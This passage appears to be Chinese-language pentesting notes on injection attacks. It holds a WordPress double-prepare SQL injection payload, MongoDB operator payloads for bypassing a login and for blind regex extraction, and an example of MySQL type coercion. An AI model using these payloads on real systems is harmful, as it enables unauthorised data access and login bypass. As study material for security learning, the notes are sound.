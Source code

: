 ### Wordpress Double Prepare Misuse  
Wordpress自己寫了`prepare()`預編譯sql語句然後再`execute()`，有別於PDO下的`prepare()`,`blind()`,`execute()`。這是出現在wordpress4.8.3以前的版本的問題...  
```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column = %s", $_GET['c1'] ); 
$wpdb->query( $query );
```  
若我注入`1' or '1'='1`，`prepare()`會用單引號將它包起來置入query語句，並且轉譯單引號。`SELECT * FROM table WHERE column = ' 1\' or \'1\'=\'1 '`，無解...但是如果開發者今天這樣寫的話...  
```php
$query = $wpdb->prepare( "SELECT * FROM table WHERE column1 = %s", $_GET['c1'] ); 
$query = $wpdb->prepare( $query . " AND column2 = %s", $_GET['c2'] );
$wpdb->query( $query );

// c1=%s&c2[]=or 1=1--&c2[]=a
執行結果
prepare1: SELECT * FROM table WHERE column1 = '%s' AND column2 = %s;
prepare2: SELECT * FROM table WHERE column1 = ' 'or 1=1--' ' AND column2 = 'a';
```  
原因出在prepare()的檢查步驟，我們沒有輸入`'`，而是讓prepare()自己輸入單引號來協助我們閉合...  
在Wordpress4.8.3的版本之後，patch成使用者輸入的`%`會被取代為66bytes的秘密字串：`{xxxxx...xxx}s`  
  
# NoSQL injection
MongoDB用json格式來解析資料.  
所以我們不能用字串進行注入,而使用```{key:value}```進行注入.  
```sql
// The list of regex
$gt: >
$lt: <
$gte: >=
$lte: <=
$ne: not equal
$in: in
$nin: not in
$not:
$or

// expression of query
db.table_name.find({"column_name":value});      // where column = value
db.table_name.find({"column":{$reg:value}});    // where column $reg value
```  
Login first to find other hints
```sql
?username[$ne]=\&password[$ne]=\
```
Blind injection  
```sql
?username=admin&password[$regex]=^a
```  

### Logic Vul  
對sql觀念的誤解很容易讓開發者犯了一些邏輯漏洞，下面做一些收集：  
1. mysql整型  
在mysql裡若字段為整型，`where`語句中的值不為整型時，會先被轉換成整型才進行語句查詢...  
```php
select a from user where id='0a';
select a from user where id='0';
```  
若a col為int型態，id值會由字串轉換為int在進行查詢，因此`id='0a'`的結果和`id='0'`的結果會一樣...  
[遇到一個有趣的邏輯漏洞](https://www.leavesongs.com/PENETRATION/findpwd-funny-logic-vul.html)
